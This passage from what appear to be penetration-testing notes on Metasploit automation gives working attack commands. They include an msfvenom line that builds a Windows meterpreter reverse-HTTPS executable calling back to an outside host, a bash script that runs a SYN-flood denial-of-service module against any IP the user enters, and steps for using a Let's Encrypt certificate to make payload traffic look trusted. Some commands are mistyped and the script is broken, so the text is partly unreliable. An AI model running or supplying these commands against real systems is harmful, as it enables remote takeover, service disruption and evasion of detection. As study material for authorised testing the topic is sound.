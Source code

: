 ```
sudo msfconsole -r setup.rc
```

With the listener configured and running, we can, for example, launch an executable containing a meterpreter payload from our Windows VM. We can create this executable with msfvenom :

```
msfvenom -p windows/meterpreter/reverse_https LHOST=10.11.0.4 LPORT=443 -f exe -o met.exe
```

When executed, our multi/handler accepts the connection

we can specify scripts manually after getting a session:

```
meterrpreter> resource script.rc
```

## <mark style="color:red;">Bash Automation</mark>

we can write bash scripts to automate the tasks: example: a dos attack.

```
 #!/bin/bash
 TARGET
 echo " Choose who to DDoS (IP address ONLY), use nslookup < URL> to get IP address"
 read TARGET
 msfconsole -q -x "use auxiliary/dos/tcp/synflood;set RHOST $TARGET; exploit;
```

## <mark style="color:red;">Payloads with Trusted SSL Certificates</mark>

configure a domain in `zinitiative.com` and use lets enrypt to get a certificate after configuring the domain DNS servers to point to the `digitalocean` droplet getting a certificate with lets encrypt is very simple.

first install letsencrypt:

```
apt install lets encrypt -y
```

generate a cert

```
letsencrypt cartonly --manual -d zinitiative.com
```

we should have a cert under `/etc/letsencrypt/live/zinitiative.co`m directroy

before we can move on we will have to creare a unified file containng privkey.pem and cert.pem:

```
cd /etc/letsencrypt/live/zinitiative.com 
cat privkey.pem cert.pem >> /root/unified.pem
```

now in msfconsole set the cert
